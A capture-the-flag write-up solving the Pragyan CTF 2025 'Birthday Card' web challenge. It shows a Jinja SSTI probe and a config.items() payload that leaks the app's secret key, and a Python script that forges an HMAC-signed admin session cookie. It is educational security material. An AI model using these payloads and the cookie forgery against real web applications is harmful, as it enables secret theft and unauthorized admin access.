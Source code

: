 ```yaml
---
title: Birthday Card
date: 2025-02-11 01:29:12 +0800
categories: [Hacking, CTF]
tags: [web, ssti]     # TAG names should always be lowercase
description: Using SSTI to solve Pragyan CTF 2025 "Birthday Card" challenge
---
```


## Introduction

My knowledge about SSTI is little to none, so even though this was an easy challenge I still learned a lot! Kudos to the Pragyan Team for organizing the event.

## First glance

When I went to the target site, `https://birthday.ctf.prgy.in/`, I saw this:

![firstglance](https://github.com/user-attachments/assets/acf0cb40-4c45-4eb8-a82d-82f26f7b0638){: width="400" height="800" }


My first thought is that the problem might be a sanitization issue since the only thing I can do is enter text to generate a card. Thankfully the challenge comes with the source `appy.py`

## App.py

### Used of Jinja
I quickly glanced through the code and saw `Jinja` 

```python
            app.jinja_env = env    
            app.jinja_env.globals.update({
                'validator': validator()
            })
            return render_template_string(template)
```

This immediately made me think of Server-side Template Injection (SSTI), so I quickly returned to the target site and tested `{{ '{{' }} 7*7 }}` and indeed SSTI, is possible



![49](https://github.com/user-attachments/assets/2ce9c844-3e72-4827-a1ef-26ccee03c650){: width="600" height="300" }


### Sanitization

```python
class validator:
    def security():
        return _b
    def security1(a, b, c, d):
        if 'validator' in a or 'validator' in b or 'validator' in c or 'validator' in d:
            return False
        elif 'os' in a or 'os' in b or 'os' in c or 'os' in d:
            return False
        else:
            return True
    
    def security2(a, b, c, d):
        if len(a) <= 50 and len(b) <= 50 and len(c) <= 50 and len(d) <= 50:
            return True
        else :
            return False
```

This ensures that the input doesn't contain the string `validator` or `os`, and that it has a maximum length of 50 characters.

To solve this challenge, we don't need to bypass these checks, but they are needed in the harder version of the challenge(Deathday Card). 

For that I highly recommend reading this: [Nullbrunk Write-up for the Deathday Card Challenge](https://nullbrunk.github.io/posts/pragyan-deathdaycard/).

Going back to the challenge...


### /admin/report endpoint

```python
@app.route("/admin/report")
def admin_report():

    # Checks if the `Cookie` header contains a cookie-name called `session`
    # If not it returns a 403
    auth_cookie = request.cookies.get("session")
    if not auth_cookie:
        abort(403, "Unauthorized access.")



    try:
        # This means that the cookie-value would look like --> token.signature
        token, signature = auth_cookie.rsplit(".", 1)

        # This indicates that there is a file called sign.py
        from app.sign import initFn

        # KEY = os.getenv("APP_SECRET_KEY", "default_secret_key")
        signer = initFn(KEY)

        #Creating a valid signature
        sign_token_function = signer.get_signer()
        valid_signature = sign_token_function(token)

        # Checks if the signature from the cookie-value is not the same as the created valid_signature
        # If False then it continues but if True then it returns a 403
        if valid_signature != signature:
            abort(403, f"Invalid token.")

        
        # If the first part of the cookie-value is equal to "admin" then it gives us the flag.
        # If not then it returns a 403
        if token == "admin": # We now know that the token is "admin"
            return "Flag: p_ctf{redacted}"
        else:
            return "Access denied: admin only."
    except Exception as e:
        abort(403, f"Invalid token format: {e}")
```

***Please read the comments for my explanation of what the code is doing***

With this, to get the flag we just need to generate a valid session:

* `Token` = `"admin"`
* `Key` = `unknown`
* `Algorithm` used to generate a valid signature = `unknown`

Since we have an SSTI it was pretty easy to leak the value of `KEY`

By using this payload: `{{ '{{' }}config.items()}}` I was able to leak it :P

![leakedSecretKey](https://github.com/user-attachments/assets/cdae04ed-b59b-4bda-8761-6be842682241){: width="600" height="300" }

So we now have this:

* `Token` = `"admin"`
* `Key` = `"dsbfeif3uwf6bes878hgi"`
* `Algorithm` used to generate a valid signature = `unknown`


For the last part I actually just guessed it xD I figured I'd try to use HMAC-SHA-256 since it's a common choice to generate a signature.

## gen.py

With all of that, I created this script.

```python
import hmac
import hashlib

# Secret key
KEY = b"dsbfeif3uwf6bes878hgi"

# Token
token = "admin"

signature = hmac.new(KEY, token.encode(), hashlib.sha256).hexdigest()
auth_cookie = f"{token}.{signature}"

print(auth_cookie)
```

Running `gen.py` returns -> `admin.dc92ab47061ce7a0922596817589737de0b8dde08e7fbe6c7772ad5f87ea9f0b`

## Flag

To check if that is a valid `cookie-value`, I used it and made a request to `/admin/report` and...


![flag](https://github.com/user-attachments/assets/9d34926c-ae75-4659-8da5-9e30f86fca80)

Finally, we got the `Flag: p_ctf{S3rVer_STI_G0es_hArd}`


That's all for this write-up! Thanks for reading, and have a nice day :D

-***Datsuraku147***
